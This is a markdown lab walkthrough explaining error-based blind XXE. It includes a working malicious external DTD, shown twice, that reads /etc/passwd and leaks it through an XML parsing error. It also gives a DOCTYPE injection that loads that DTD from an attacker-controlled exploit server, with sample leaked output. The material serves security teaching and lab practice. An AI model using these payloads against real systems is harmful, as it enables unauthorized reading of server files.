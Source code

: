 # Exploiting XXE to Extract Files, Perform SSRF, and Handle Blind XXE 🚨

XXE (XML External Entity) is a vulnerability that allows attackers to extract files from a server, perform SSRF attacks, and exploit "blind" XXE vulnerabilities. This guide covers all these scenarios with detailed examples. 💡

---

## Using Blind XXE to Extract Data via Error Messages

An alternative approach to exploiting blind XXE is triggering an XML parsing error where the error message contains sensitive data you want to retrieve. This is effective if the application returns the resulting error message in its response.

### Example of a Malicious DTD

You can cause an XML parsing error containing the contents of the `/etc/passwd` file using the following malicious external DTD:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD performs the following steps:

1. Defines a parameter entity `file` containing the contents of the `/etc/passwd` file.
2. Defines an entity `eval` that declares another dynamic parameter entity `error`. The `error` entity attempts to load a nonexistent file whose name includes the value of the `file` entity.
3. Uses the `eval` entity to declare the `error` entity.
4. Invokes the `error` entity, causing an attempt to load a nonexistent file, which results in an error message containing the filename — effectively leaking the `/etc/passwd` contents.

Triggering this malicious external DTD will produce an error message like the following:
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

---

## Example Lab Exercise

In this lab, the "Check Stock" function processes XML input data but does not display the result.

To solve the lab, use an external DTD to trigger an error message displaying the contents of the `/etc/passwd` file.

The lab provides a link to an exploit server on another domain where you can host your malicious DTD.

### Steps to Execute

### 1. Select a Product
Open the product list and choose any item:

![Product List](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### 2. Click the Button
On the product page, click the **"Check Stock"** button after enabling a proxy tool (e.g., Burp Suite):

![Check Stock Button](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### 3. Prepare the Malicious DTD
Upload the following payload to the exploit server:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

![Preparing the Malicious DTD](https://github.com/user-attachments/assets/11ff29f8-5837-4372-900b-a9d5bbddcdd9)

---

### 4. Intercept the Request
Navigate to **Proxy → HTTP History**, select the POST request to `/product/stock`, and send it to **Repeater**:

![POST Request](https://github.com/user-attachments/assets/1a3d72b0-4f86-4a0f-8a3f-d488517695b2)

---

### 5. Insert the Payload
Add the following external entity definition between the XML declaration and the `stockCheck` element:
```xml
<!DOCTYPE foo [<!ENTITY % eyes SYSTEM "YOUR-DTD-URL"> %eyes;]>
```

![Inserting the Payload](https://github.com/user-attachments/assets/0e7f5ee1-ca87-4bf9-ac69-5d11b894fba8)

---

### 6. Retrieve the Output
The `/etc/passwd` contents should now appear in the application's error message:

![Output of /etc/passwd](https://github.com/user-attachments/assets/70fb7b7c-fa39-4c23-be4d-b5d2e10d6c9f)


